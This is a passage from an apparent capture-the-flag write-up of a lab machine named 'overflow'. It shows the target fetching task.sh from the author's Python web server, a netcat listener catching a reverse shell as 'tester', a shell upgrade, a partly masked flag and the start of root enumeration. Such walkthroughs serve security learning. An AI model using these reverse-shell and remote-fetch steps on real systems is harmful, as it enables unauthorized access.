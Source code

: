 
And I’ll start a Python web server in the directory with `task.sh`. When the
minute rolls over, there’s a hit on the server:

    
    
    oxdf@hacky$ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.11.119 - - [28/Sep/2021 16:08:02] "GET /task.sh HTTP/1.1" 200 -
    

And then a reverse shell as tester:

    
    
    oxdf@hacky$ nc -lnvp 443
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.11.119.
    Ncat: Connection from 10.10.11.119:51820.
    bash: cannot set terminal process group (15402): Inappropriate ioctl for device
    bash: no job control in this shell
    tester@overflow:~$ 
    

I’ll upgrade my shell:

    
    
    tester@overflow:~$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    tester@overflow:~$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    tester@overflow:~$ 
    

And grab `user.txt`:

    
    
    tester@overflow:~$ cat user.txt
    c7cbbf3d************************
    

## Shell as root

### Enumeration

The first place to look is the `file_encrypt` directory that I know tester can
access. It has two files:

    
    
    tester@overflow:/opt/file_encrypt$ ls
    file_encrypt  README.md
    